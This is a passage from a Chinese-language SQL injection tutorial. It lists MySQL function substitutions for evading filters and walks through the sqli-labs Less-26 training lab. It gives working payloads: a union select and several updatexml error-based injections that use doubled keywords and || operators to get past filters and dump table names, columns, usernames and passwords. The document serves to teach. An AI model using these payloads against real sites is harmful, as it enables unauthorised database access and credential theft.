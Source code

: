   - `ascii()`更换为`hex(), bin()`

    替代之后再使用对应的进制转string即可

  - `group_concat()`替换为`concat_ws()`

    ```
    mysql> select group_concat("str1","str2");
    +-----------------------------+
    | group_concat("str1","str2") |
    +-----------------------------+
    | str1str2                    |
    +-----------------------------+
    1 row in set (0.00 sec)
    
    #第一个参数为分隔符
    mysql> select concat_ws(",","str1","str2");
    +------------------------------+
    | concat_ws(",","str1","str2") |
    +------------------------------+
    | str1,str2                    |
    +------------------------------+
    ```

  - `substr(), substring(), mid()`可以相互取代, 取子串的函数还有`left(), right()`
  - `user() --> @@user`、`datadir–>@@datadir`
  - `ord()–>ascii()`：这两个函数在处理英文时效果一样，但是处理中文等时不一致。

> 例如sqli-labs的less-26，将逻辑运算符，注释符以及空格给过滤了，我们需要使用单引号进行闭合，双写绕过逻辑运算符或者使用&&和||替换。报错注入空格使用比较少所以我们可以使用报错注入。
>
> 我们输入
>
> ```
> ?id=0%27union%20select%201,group_concat(username,0x7e,password),3%20from%20users%20%23
> ```
>
> 发现出现下面的情况：
>
> ![](https://pic.imgdb.cn/item/64c5d66a1ddac507ccf6f4cd.png)
>
> 根据给的hint，我们尝试绕过过滤。
>
> ```
> ?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),1))||'0   #  爆表
>  
> ?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security'aandnd(table_name='users')))),1))||'0     #  爆字段
>  
> ?id=1'||(updatexml(1,concat(0x7e,(select(group_concat(passwoorrd,username))from(users))),1))||'0   #  爆密码账户
> ```
